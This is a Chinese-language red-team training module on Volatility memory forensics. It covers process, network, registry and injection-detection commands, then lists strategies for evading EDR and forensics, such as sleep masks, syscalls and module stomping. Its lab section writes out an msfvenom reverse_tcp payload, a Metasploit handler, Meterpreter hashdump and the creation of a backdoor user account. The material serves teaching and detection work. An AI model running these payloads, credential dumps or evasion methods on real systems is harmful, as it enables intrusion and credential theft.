


# 模块09：内存取证与攻击痕迹分析

> **学习目标**：掌握Volatility内存取证框架、理解攻击在内存中的痕迹、学习规避策略
> **所需工具**：volatility, LiME, WinPMem, rekall

## 目录

- [[#一、内存取证基础|内存取证基础]]
- [[#二、Volatility核心命令|Volatility核心命令]]
- [[#三、红队视角 攻击痕迹|攻击痕迹分析]]
- [[#四、红队规避策略|规避策略]]
- [[#五、实践演练|实践演练]]

---

## 一、内存取证基础

### 1.1 内存取证的价值

内存取证是指对计算机物理内存(RAM)的转储文件进行结构化分析的过程。
与磁盘取证不同，内存中的数据是瞬态的(断电即消失)，但它包含了系统运行状态的完整快照。



对红队来说，内存取证是最难规避的调查手段之一，因为几乎所有操作都会在内存中留下痕迹。

### 1.2 安装Volatility

```bash
# ArchStrike安装
sudo pacman -S volatility
volatility --help
volatility --info
```

### 1.3 获取内存镜像

**Windows内存获取**：
```cmd
winpmem_mini_x64.exe -o memory.raw
DumpIt.exe
```

**Linux内存获取(LiME)**：
```bash
git clone https://github.com/504ensicsLabs/LiME.git
cd LiME/src && make
sudo insmod lime-*.ko "path=/tmp/memory.lime format=raw"
```

红队提醒：
- 内存获取会产生大量I/O，可能触发EDR告警
- 获取内存需要管理员/root权限
- 内存文件很大(等于RAM大小)，传输需注意OPSEC

### 1.4 确定Profile

```bash
volatility -f memory.dump imageinfo
# 输出：Suggested Profile(s) : Win10x64_19041
# 后续所有命令使用: --profile=Win10x64
```

---

## 二、Volatility核心命令

### 2.1 进程分析



**pslist** — 列出所有进程：
```bash
volatility -f memory.dump --profile=Win10x64 pslist
```

输出列：Offset, Name, PID, PPID, Thds, Hnds, Sess, Wow64, Start, Exit

红队关注点：
- 查找自己的工具进程(如meterpreter进程名)
- 查找异常的进程名称
- Wow64标志：32位进程运行在64位系统上

**pstree** — 进程父子关系：
```bash
volatility -f memory.dump --profile=Win10x64 pstree
```

红队关注点：
- explorer.exe下不应该有cmd.exe子进程
- 异常进程的父进程是谁？
- 进程启动时间是否与攻击时间吻合

**psscan** — 发现隐藏进程：
```bash
volatility -f memory.dump --profile=Win10x64 psscan
```
> 如果pslist看不到但psscan能看到 → 进程被DKOM隐藏(高级rootkit)

**cmdscan / consoles** — 命令行历史(极危险！)：
```bash
volatility -f memory.dump --profile=Win10x64 cmdscan
volatility -f memory.dump --profile=Win10x64 consoles
```

输出示例：
```
CommandProcess: conhost.exe Pid: 4567
Cmd #0: whoami
Cmd #1: net user redteam Password123! /add
Cmd #2: reg save HKLM\SAM sam.save
Cmd #3: powershell -enc JABjAGwAaQB...
```

**dlllist** — 进程加载的DLL：
```bash
volatility -f memory.dump --profile=Win10x64 dlllist -p 4567
```
关注点：是否有反射DLL注入的痕迹、异常加载路径

**malfind** — 检测恶意代码：
```bash
volatility -f memory.dump --profile=Win10x64 malfind
```
检测出：
- Meterpreter的反射DLL加载(RWX内存区域)
- Process Hollowing后注入的代码
- 无文件攻击中的Shellcode执行

**ldrmodules** — 检查DLL隐藏：
```bash
volatility -f memory.dump --profile=Win10x64 ldrmodules -p 4567
```
三列对比：InLoad / InInit / InMem
- InMem=True但InLoad=False → DLL被手动映射隐藏(典型特征)

### 2.2 网络分析

**netscan** — 所有网络连接：
```bash
volatility -f memory.dump --profile=Win10x64 netscan
```

输出列：Proto, Local Address, Foreign Address, State, PID, Owner, Created

红队关注点：
- C2通信连接 → 外联IP和端口
- 监听端口 → Socks代理、反向监听器
- 连接建立时间 → 与攻击时间线匹配

```bash
connections      # 网络连接(XP/2003)
connscan         # 扫描池标记
sockets          # 所有打开的Socket
```

### 2.3 注册表分析

**hivelist** — 注册表蜂巢位置：
```bash
volatility -f memory.dump --profile=Win10x64 hivelist
```

输出关键蜂巢：
- `\REGISTRY\MACHINE\SAM` — SAM数据库
- `\REGISTRY\MACHINE\SYSTEM` — 系统配置

**printkey** — 打印注册表键值：
```bash
volatility -f memory.dump --profile=Win10x64 printkey -K "Software\Microsoft\Windows\CurrentVersion\Run"
```

**hashdump** — 提取密码哈希：
```bash
volatility -f memory.dump --profile=Win10x64 hashdump
```
输出格式：`Administrator:500:NTLM:NTLM:::`

**lsadump** — 提取明文密码：
```bash
volatility -f memory.dump --profile=Win10x64 lsadump
```
> 极危险！明文密码在内存中可见。

### 2.4 文件与高级检测

```bash
filescan       # 扫描内存文件对象(即使文件已删除)
dumpfiles      # 根据物理偏移提取文件内容
mftparser      # 解析内存中的MFT
svcscan        # 扫描Windows服务
mutantscan     # 扫描内核互斥体(Mutex)
driverscan     # 扫描内核驱动
callbacks      # 检测内核回调函数(rootkit钩子)
ssdt           # 系统服务描述符表(检测SSDT Hook)
idt            # 中断描述符表(检测IDT Hook)
```

---

## 三、红队视角 — 攻击痕迹

### 3.1 Meterpreter在内存中的特征

1. **进程名称异常**：随机命名的进程或伪装成合法进程名
2. **DLL加载痕迹(dlllist)**：无磁盘路径的DLL(反射加载)、metsrv.dll
3. **网络连接(netscan)**：出站连接到非标准端口、持续长连接
4. **内存区域(malfind)**：PAGE_EXECUTE_READWRITE (RWX) — 最可靠检测指标
5. **命令行参数(cmdscan)**：PowerShell编码命令

### 3.2 Cobalt Strike Beacon特征

1. **进程层面**：常见注入目标 rundll32.exe, wuauclt.exe, svchost.exe
2. **内存特征(malfind)**：可执行但未通过LoadLibrary加载的代码
3. **命名管道**：`\\.\pipe\msagent_*` (默认配置)
4. **Sleep Mask检测**：睡眠期间beacon代码被混淆；使用Yara规则+Volatility可检测

### 3.3 各类注入技术检测矩阵

```mermaid
flowchart TD
    subgraph Classic["Classic DLL注入"]
        C1["CreateRemoteThread"] --> C2["dlllist可见"]
        C2 --> C3["有Load Count"]
    end
    subgraph Reflective["反射DLL注入"]
        R1["手动映射"] --> R2["dlllist无路径"]
        R2 --> R3["ldrmodules: InLoad=False"]
        R3 --> R4["malfind: RWX区域 ← 最易检测"]
    end
    subgraph Hollow["Process Hollowing"]
        H1["创建挂起进程"] --> H2["PEB路径不一致"]
        H2 --> H3["malfind: 可执行代码映射"]
    end
    subgraph Module["Module Stomping"]
        M1["覆盖已加载DLL"] --> M2["dlllist仍显示合法名"]
        M2 --> M3["代码已替换 ← 较难检测"]
    end
```



---

## 四、红队规避策略

**策略1**: 选择本身就有RWX内存的进程(如浏览器、.NET应用)注入

**策略2**: 使用RW→RX模式：先分配RW，写入后改为RX，减少W+X内存页面

**策略3**: 内存加密(Sleep Mask) — Beacon在睡眠前加密自身

**策略4**: 栈欺骗(Stack Spoofing) — 伪装调用栈，绕过EDR检测

**策略5**: 硬件断点规避 — 修改Dr0-Dr7寄存器清除断点

**策略6**: 直接系统调用(Direct Syscall) — 绕过用户态hook

**策略7**: 间接系统调用(Indirect Syscall) — syscall instruction放在自己代码中

**策略8**: 模块踩踏(Module Stomping) — 覆盖已加载但未使用的DLL内存

**策略9**: 尽量减少内存驻留 — 使用LOLBins、利用系统自带工具

---

## 五、实践演练

### 5.1 实验环境准备

- 攻击机(Kali/ArchStrike)：运行Metasploit
- 靶机(Windows 10 VM)：被攻击目标
- 两台机器同网络

### 5.2 执行攻击并抓取内存

```bash
# 攻击机：生成payload
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.50 LPORT=4444 -f exe -o payload.exe

# 攻击机：启动监听
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.50
set LPORT 4444
exploit -j

# 靶机：执行payload，通过Meterpreter执行操作
sysinfo
getuid
hashdump
shell
whoami
net user redteam_backdoor P@ssw0rd! /add

# 靶机：抓取内存
winpmem_mini_x64.exe -o C:\evidence\memory_after_attack.raw
```

### 5.3 Volatility分析攻击内存

```bash
# 确认Profile
volatility -f memory_after_attack.raw imageinfo

# 进程分析
volatility -f memory_after_attack.raw --profile=Win10x64 pslist
volatility -f memory_after_attack.raw --profile=Win10x64 pstree
volatility -f memory_after_attack.raw --profile=Win10x64 psscan

# 命令行历史(查看自己的操作)
volatility -f memory_after_attack.raw --profile=Win10x64 cmdscan
volatility -f memory_after_attack.raw --profile=Win10x64 consoles

# 网络连接(C2痕迹)
volatility -f memory_after_attack.raw --profile=Win10x64 netscan

# 恶意代码检测
volatility -f memory_after_attack.raw --profile=Win10x64 malfind

# DLL注入检测
volatility -f memory_after_attack.raw --profile=Win10x64 ldrmodules -p [PID]

# 提取密码哈希
volatility -f memory_after_attack.raw --profile=Win10x64 hashdump

# 文件扫描
volatility -f memory_after_attack.raw --profile=Win10x64 filescan | grep -iE "(payload|temp|tools)"
```

### 5.4 攻击痕迹检查清单

- [ ] pslist/pstree — 攻击进程是否直接可见？
- [ ] cmdscan/consoles — 命令历史是否可被提取？
- [ ] netscan — C2连接是否可被识别？
- [ ] malfind — 是否有RWX内存区域被标记？
- [ ] ldrmodules — 是否有未加载/未初始化的DLL？
- [ ] filescan — 攻击工具的文件路径是否被发现？
- [ ] hashdump — 是否提取到了凭据？

> 如果大部分选项被勾选 → 你的攻击在内存取证面前完全透明

---

## 关键总结

1. 内存取证可以恢复几乎所有运行时状态：进程、网络、命令、凭据
2. pslist + pstree + cmdscan 三连可以完整还原攻击者的操作步骤
3. malfind 是检测代码注入(特别是反射DLL注入)的最有效工具
4. netscan 可以直接定位 C2 服务器的 IP、端口和连接时间
5. 规避策略分为：注入目标选择、内存权限控制、代码混淆加密
6. 最彻底的规避方式是减少自定义代码加载，尽可能使用 LOLBins
7. 定期在实验环境中进行攻击后内存自审，是提高 OPSEC 的最好方法

---

> **相关模块**：[[01-磁盘取证与反取证|磁盘取证]] | [[03-数据恢复与反删除技术|数据恢复]]

[[../总目录与快速查询|← 返回总目录]]
